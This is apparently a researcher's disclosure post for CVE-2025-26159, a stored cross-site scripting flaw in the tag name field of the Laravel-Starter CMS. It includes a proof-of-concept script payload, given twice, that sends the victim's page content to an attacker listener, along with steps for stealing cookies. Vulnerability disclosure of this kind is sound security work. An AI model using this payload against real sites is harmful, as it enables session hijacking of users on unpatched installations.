 ```yaml
---
title: CVE-2025-26159
categories: [Deep Dives]
tags: [cve]
image: assets/img/cve-2025-laravel/banner.png
description: CVE-2025-26159 Explotation
pin: true
---
```


**Discovered by: Fernando González Perea**

CVE-2025-26159 is a Stored Cross-Site Scripting (XSS) vulnerability in the [Laravel-Starter CMS](https://github.com/nasirkhan/laravel-starter), specifically within the tag name field. This vulnerability allows an attacker to inject and execute malicious JavaScript code in the browsers of users who visit the affected tag details page.

The issue impacts versions prior to v11.11.0 and arises due to improper sanitization of user input, which is stored on the server without adequate validation.

An attacker can take advantage of this vulnerability to steal cookies in the server by creating a a tag with the following payload in the name field.

```js
<script>fetch("/",{credentials:"include"}).then(r=>r.text()).then(d=>location='//127.1:9000/d='+escape(d))</script>
```
# Proof of Concept

To abuse this vulnerability we will just need control over an user with the following permissions.

![Pic]({{ '/assets/img/cve-2025-laravel/role_user.png' | relative_url }}){: .center-image }

Now let's create the malicious tag. With the user account, we can go to Admin Dashboard > Tags

![Pic]({{ '/assets/img/cve-2025-laravel/admin_dashboard.png' | relative_url }}){: .center-image }

![Pic]({{ '/assets/img/cve-2025-laravel/tag_menu.png' | relative_url }}){: .center-image }

Now, we can inject the malicious payload into the "name" field, also remember to add random data to the next fields.

```javascript
<script>fetch("/",{credentials:"include"}).then(r=>r.text()).then(d=>location='//127.1:9000/d='+escape(d))</script>
```

![Pic]({{ '/assets/img/cve-2025-laravel/malicious_tag.png' | relative_url }}){: .center-image }

Once the tag has been created, any user who visits the detailed page will execute the JavaScript code in his browser, but to get his cookies, we need to create a HTTP server, get the content of the web, decode it from url encode and search for the cookies. To make it easier, I have write this [script](https://github.com/godBADTRY/CVE-2025-26159) in Go that make all this.

![Pic]({{ '/assets/img/cve-2025-laravel/run_script.png' | relative_url }}){: .center-image }

And lastly, when the user clicks on "View details" bottom, we will get his cookies.

![Pic]({{ '/assets/img/cve-2025-laravel/tag_created.png' | relative_url }}){: .center-image }

![Pic]({{ '/assets/img/cve-2025-laravel/COOKIES.png' | relative_url }}){: .center-image }

> As of the date of this publication, the vulnerability remains unpatched by the vendor.
{: .prompt-warning }

Despite multiple attempts to responsibly disclose the issue, the developer has failed to respond or take action.
This post is being published to raise awareness among users and administrators who rely on this software, so they can take appropriate mitigation steps on their own.

#### References

- https://nvd.nist.gov/vuln/detail/CVE-2025-26159
- https://www.cve.org/CVERecord?id=CVE-2025-26159
- https://github.com/nasirkhan/laravel-starter
